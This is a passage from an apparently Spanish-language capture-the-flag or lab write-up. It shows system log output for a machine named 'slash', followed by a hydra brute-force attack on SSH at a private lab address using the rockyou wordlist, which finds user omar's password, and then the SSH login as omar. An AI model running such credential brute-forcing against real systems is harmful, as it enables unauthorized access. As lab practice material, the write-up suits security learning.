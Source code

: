 ```bash
Aug 18 14:27:12 slash systemd-logind[315]: New seat seat0.
Aug 18 14:27:12 slash systemd-logind[315]: Watching system buttons on /dev/input/event4 (Power Button)
Aug 18 14:27:12 slash systemd-logind[315]: Watching system buttons on /dev/input/event5 (Sleep Button)
Aug 18 14:27:12 slash systemd-logind[315]: Watching system buttons on /dev/input/event0 (AT Translated Set 2 keyboard)
Aug 18 14:31:29 slash CRON[328]: pam_unix(cron:session): session opened for user root(uid=0) by (uid=0)
Aug 18 14:31:29 slash CRON[328]: pam_unix(cron:session): session closed for user root
Aug 18 14:31:29 slash sshd[362]: Server listening on 0.0.0.0 port 22.
Aug 18 14:31:29 slash sshd[362]: Server listening on :: port 22.
Aug 18 14:31:29 slash systemd-logind[324]: New seat seat0.
Aug 18 14:31:29 slash systemd-logind[324]: Watching system buttons on /dev/input/event4 (Power Button)
Aug 18 14:31:29 slash systemd-logind[324]: Watching system buttons on /dev/input/event5 (Sleep Button)
Aug 18 14:31:29 slash systemd-logind[324]: Watching system buttons on /dev/input/event0 (AT Translated Set 2 keyboard)
Aug 19 01:33:47 slash CRON[311]: pam_unix(cron:session): session opened for user root(uid=0) by (uid=0)
Aug 19 01:33:47 slash CRON[311]: pam_unix(cron:session): session closed for user root
Aug 19 01:33:47 slash sshd[390]: Server listening on 0.0.0.0 port 22.
Aug 19 01:33:47 slash sshd[390]: Server listening on :: port 22.
```
Podemos ver que se han conectado al sistema con el usuario omar por lo que prosigo a hacer un ataque de fuerza bruta al ssh para encontrar las credenciales del usuario.

```bash
❯ hydra ssh://10.0.2.136 -l omar -P /usr/share/wordlists/rockyou.txt -t 64 -f
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-21 19:51:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://10.0.2.136:22/
[STATUS] 359.00 tries/min, 359 tries in 00:01h, 14344072 to do in 665:56h, 32 active
[22][ssh] host: 10.0.2.136   login: omar   password: o******
[STATUS] attack finished for 10.0.2.136 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-21 19:54:03
```
Ya con credenciales ingresaremos a la máquina como omar.

```bash
❯ ssh omar@10.0.2.136
omar@10.0.2.136's password: 
omar@slash:~$ whoami
omar
```
